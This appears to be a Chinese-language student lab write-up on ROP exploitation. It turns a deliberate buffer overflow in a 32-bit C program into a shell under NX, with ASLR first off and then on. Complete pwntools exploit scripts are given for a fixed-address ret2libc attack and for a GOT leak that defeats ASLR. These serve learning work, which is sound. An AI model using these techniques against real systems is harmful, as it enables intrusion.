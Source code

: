 ```yaml
---
title: ROP技术 
date: 2019-10-22 09:50:08 
tags:
  - "网络空间安全"
  - "软件安全"
categories:
  - ["实验","漏洞分析"]
  - ["漏洞","缓冲区溢出"]
comments: true 
mathjax: true

---
```


## 实验目的

了解ROP技术的原理和应用，学会利用ROP技术绕过安全保护。
<!-- more -->

## 步骤

### canary+ASLR off，NX on下getshell

{% note primary %}

#### 准备工作

{% tabs prepare,1 %}
<!-- tab 关闭ASLR -->
执行以下shell命令 {% codeblock lang:bash line_number:false %} echo 0 > /proc/sys/kernel/randomize_va_space {% endcodeblock %}
{% asset_img 1-0.png %}
<!-- endtab -->
<!-- tab 开启NX-->
gcc编译时加入`-z noexecstack`参数 {% codeblock lang:bash line_number:false %} gcc -znoexecstack -fno-stack-protector rop1.c -o
rop1 -m32 {% endcodeblock %}
<!-- endtab -->
<!-- tab 确认ASLR和栈保护canary已关闭 -->
使用`checksec`命令检查 {% codeblock lang:bash line_number:false %} checksec --file ./rop1 {% endcodeblock %} {% asset_img
1-1.png %}
<!-- endtab -->
{% endtabs %} {% endnote %}

其中`rop1.c`的源码如下 {% codeblock rop1.c lang:c %}

# include <stdio.h>

void vuln(){ char buf[128]; read(0,buf,256); } int main(){ vuln(); write(1,"hello vuln\n",10); } {% endcodeblock %}

`vuln`函数中，有一个128字节长的`char`数组作为“缓冲区”，然后调用`read()`读入了256字节，此时很容易造成程序溢出。我们要利用这个漏洞向“缓冲区”`buf`
写入shellcode，劫持程序流，把返回地址改为恶意代码地址(`bin/sh`)
{% asset_img 1-2.png "利用示意图" %}

下面进入gdb调试过程： {% note warning %} 本次使用目标文件为`rop2`——但源码仍然为`rop1.c`
{% endnote %}

1. Buffer的有效地址为`ebp-0x88`，ebp距离返回地址又有`0x4`的距离，所以在覆盖返回地址前，先要填充`0x88+0x4=0x8c`
   段距离。由于NX开启，栈上代码不可执行，所以我们需要使用系统调用`system("bin/sh")`。 {% asset_img 1-3.png %}
2. 首先确定`system`的地址。 {% asset_img 1-4.png "system的地址是0xf7e40da0" %} 由于ASLR还是关闭状态，所以`system`地址固定，可以通过`system`地址来调用`system`
   函数，`/bin/sh`字符串可以在程序所使用的`libc.so`链接库中寻找，也是固定的。
3. 接下来，寻找字符串`bin/sh`的地址。由于gdb的调试环境会影响buf变量在内存中的地址，故需要在python脚本中开启调试，使用`gdb.attach()`
   即可，然后运行python脚本。会开启一个新的shell窗口，在其中执行`vmmap`查看其引用的`libc.so`地址 {% codeblock lang:python line_number:false %} p =
   process("./rop2")
   gdb.attach(p,'b vuln')
   {% endcodeblock %} {% asset_img 1-5.png %}
4. 下图表明该程序引用了2.23版本的libc库，地址范围为`0xf7e06000~0xf7fb9000`，接着在其中寻找`bin/sh`字符串 {% note warning %}
   这里有个小坑点，gdb-peda输出结果有微小不同，从而导致找不到`bin/sh`字符串，不知道是什么问题导致的 {% endnote %} {% asset_img 1-6.png %} {% asset_img 1-7.png "
   bin/sh在地址0xf7f61a0b处" %}
5. 刚才的程序继续后其实也是一个`/bin`程序，只不过其中没有什么命令。但是从没有`Hello rop`输出来看，程序控制流已经被改变了。 {% asset_img 1-10.png %}
6. 最终payload代码如下。先填充足够的字符`a`占满缓冲区，再填入`system`函数的地址，由于getshell后没有其他事情可做，返回地址随便填，然后跟入`/bin/sh`的地址作为参数 {% codeblock
   payload1.py lang:python line_number:false %} from pwn import *

p = process('./rop2')

# gdb.attach(p,'b vuln')

sys_addr=0xf7e40da0 binsh_addr=0xf7f61a0b payload = 'a'*0x8c + p32(sys_addr)+p32(0xdeadbeef)+p32(binsh_addr)

p.sendline(payload)
p.interactive()
{% endcodeblock %} {% asset_img 1-12.png "Getshell成功" %}

### canary off，NX+ASLR on下getshell

{% note primary %}

#### 准备工作

{% tabs prepare2,1 %}
<!-- tab 开启ASLR -->
执行以下shell命令 {% codeblock lang:bash %} echo 2 > /proc/sys/kernel/randomize_va_space {% endcodeblock %} {% asset_img
2-0.png %}
<!-- endtab -->
<!-- tab 准备<code>libc.so</code> -->
从目录 <code>/lib/i386-linux-gnu/libc-2.23.so</code>中拷贝出系统的so文件，复制到文件夹下。
<!-- endtab -->
{% endtabs %} {% endnote %} 由于地址随机化，不可以直接获取system的地址，但是`libc.so`中各函数的相对位置不变，可以利用泄露出的某函数地址与`system`函数之间取偏移值，计算`system`
函数的地址和`/bin/sh`字符串的地址，就可以使用ret2libc方法getshell。

1. 在脚本中，使用`gdb.attach`并打指令`b vuln`，在`vuln`函数下断点。 利用`disass vuln`查看`vuln`函数汇编，得到`vuln`函数首地址为`0x804843b`。 {% asset_img
   2-6.png %} {% note info %} 另外一种算法是：在backtrace可以看到`0x804845a`是vuln+31的位置(如图)，计算得知 $$ vulnAddr=\left(804845a\right )
   \_{16}-\left(31\right )_{16}+\left(4\right )\_{16}=\left(804843b\right )\_{16} $$ {% asset_img 2-1.png %} {% endnote
   %}
2. 继续运行程序，在寄存器中可以看到got表泄露的`write`绝对地址`0xf7644b70`与其在程序中的地址`0x804a014`。`write`函数所在got表中的相对偏移量为+20，说明got表的基地址为`0x804a000`
   。立刻执行`print system`，看到此时`libc_system`的地址是`0xf75a9da0`。 {% asset_img 2-2.png "得知got表和libc_system的地址" %}
3. 执行`plt`命令，看到`write`函数的`plt`地址为`0x8048320`。 {% asset_img 2-5.png %}
4. 使用`vmmap`和`find`命令寻找`/bin/sh`的地址。 {% grouppicture 2-2 %} {% asset_img 2-3.png %} {% asset_img 2-4.png "
   字符串/bin/sh的地址为0xf76caa0b" %} {% endgrouppicture %}
5. 计算字符串`/bin/sh`相对偏移量为 $$ \left(f76caa0b\right )\_{16}-\left(f75a9da0\right )\_{16}=\left(120c6b\right )\_{16} $$
   ROP所需要的东西都齐备了。
6. 但是在实际getshell的过程中，我们需要以脚本的方式来自动化完成泄露地址->寻找相对差值->
   写shellcode的过程，所以需要pwn库的一些额外功能。由于只有在程序运行时，才会加载系统库，所以需要预先发送一个payload，此payload用于泄露地址，计算出`/bin/sh`
   的相对位移后，第二步的payload才会“击中要害”。
7. Pwn的ELF模块用于获取ELF文件的信息，用法是`elf=ELF('sofile_name')`，我们要在这里拿`write`函数的got表和plt表地址，可以直接用`elf.got["write"]`
   ，`elf.plt["write"]`获得，至于寻找`/bin/sh`字符串，可以用`next(elf.search('/bin/sh'))`获得。
8. 最终payload代码如下 {% codeblock payload2.py lang:python %} from pwn import *

p =process('./rop2')
libc = ELF('./libc.so')

# gdb.attach(p,'b vuln')

write_got = 0x804a014 write_plt = 0x8048320 vuln_addr = 0x804843b

log.info('leaking addr from write got&plt')
rop1 = p32(write_plt)+p32(vuln_addr)+p32(1)+p32(write_got)+p32(4)
payload1='a'*0x8c + rop1 p.sendline(payload1)

write_addr = u32(p.recv(4))
sys_addr = write_addr - (libc.symbols['write']-libc.symbols['system'])
binsh_addr = write_addr - (libc.symbols['write']-next(libc.search('/bin/sh')))

log.info('write_addr:%#x'%write_addr)
log.info('write in libc.symbols:%#x'%libc.symbols['write'])
log.info('system in libc.symbols:%#x'%libc.symbols['system'])
log.info('/bin/sh absolute addr:%#x'%next(libc.search('/bin/sh')))
log.info('system_addr:%#x'%sys_addr)
log.info('binsh_addr:%#x'%binsh_addr)
log.info('sending final payload')
rop2 = p32(sys_addr)+p32(0xdeadbeef)+p32(binsh_addr)
payload2='a'*0x8c+rop2 p.sendline(payload2)

p.interactive()
{% endcodeblock %} 其中第一步先向`vuln_addr`写入`write`函数的地址，以获得泄露的`write`函数绝对地址。然后，根据系统库的相对偏移计算出`/bin/sh`
的地址，最终的payload是填充`0x8c个字符"a"+sys_addr+sys_addr的返回地址（随意指定一个不存在的值）+binsh_addr`。观察上述脚本，我还发现，`/bin/sh`的地址其实可以直接用`write`
和`/bin/sh`的相对差值来算，不需要再单独算出`sys_addr`。 {% asset_img 2-7.png "Getshell成功截图" %}

## 实验难点及收获

本次实验的难点和最大的收获都在于payload的构造方法。这次通过两个实验，了解到了利用ROP技术绕过NX和ASLR保护的方法，了解到shellcode `system("/bin/sh")`
在此时的一般构造格式为`溢出填充字符+p32(sys_addr)+p32(system的返回地址，一般指定一个不存在的地址)+p32(binsh_addr)`，`sys_addr`
可以在ASLR关闭的情况下直接gdb调试观察，或者在ASLR开启时通过泄露libc某函数的地址，算出相对差值以获得。

本次实验所使用的程序都是32位程序，实际上还有很多64位程序会用到相似的思路，不过64位程序需要借助gadget，这是以后要进一步学习的内容了。

## 实验思考

问题：为什么明明pwndbg和gdb-peda对于vmmap中libc-2.23.so的起始终止地址输出均相同，但是在gdb-peda中找不到`/bin/sh`呢？ {% grouppicture 3-1 %} {% asset_img
1坑点.png %} {% asset_img 2-3.png %} {% asset_img 2-4.png %} {% endgrouppicture %}

